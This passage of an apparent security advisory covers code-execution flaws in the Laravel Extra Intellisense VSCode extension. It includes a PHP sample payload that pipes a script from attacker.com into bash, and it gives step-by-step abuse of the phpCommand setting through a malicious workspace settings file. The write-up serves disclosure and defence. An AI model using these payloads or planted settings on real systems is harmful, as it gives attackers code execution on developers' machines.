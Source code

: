 2. Open this project in VSCode with the Laravel Extra Intellisense extension installed

3. Verify that the file `/tmp/pwned_via_laravel` is created, proving code execution

4. An actual attacker might use more sophisticated payloads like:
```php
<?php
exec('curl http://attacker.com/payload.sh | bash');
// Continue with normal autoload functionality
```

## Command Injection via Workspace Settings

### Vulnerability name
Command Injection via User-Configurable PHP Command

### Description
The Laravel Extra Intellisense extension uses a configurable `phpCommand` setting to execute PHP code. If a victim opens a repository with malicious workspace settings (.vscode/settings.json), the attacker can achieve command injection through the `phpCommand` configuration value.

Step by step how someone can trigger vulnerability:
1. An attacker creates a repository with a malicious .vscode/settings.json file
2. The attacker configures the `LaravelExtraIntellisense.phpCommand` setting to include command injection
3. The victim opens this repository in VSCode with the Laravel Extra Intellisense extension installed
4. The victim accepts the workspace settings when prompted by VSCode
5. When the extension executes PHP code (which happens automatically), the injected commands also execute

### Impact
This vulnerability allows arbitrary command execution on the victim's machine. An attacker can:
- Execute any command with the victim's privileges
- Access, modify, or exfiltrate sensitive files
- Install malware or backdoors
- Compromise other systems on the victim's network
- Full system compromise
- Installation of persistent backdoors
- Lateral movement within the victim's network

### Vulnerability rank
Critical

### Currently implemented mitigations
VSCode typically prompts users before applying workspace settings, providing some protection if users reject untrusted settings. The README includes a security note warning users that the extension runs the Laravel application automatically and periodically, but does not specifically mention the risk of opening untrusted repositories.

### Missing mitigations
- The extension should validate and sanitize the `phpCommand` setting
- Implement a whitelist of allowed command templates
- Warn users specifically about the danger of untrusted workspace settings
- No warning when opening a repository that changes critical configuration settings
- No sandboxing or isolation when executing commands
- No default restriction on the commands that can be executed

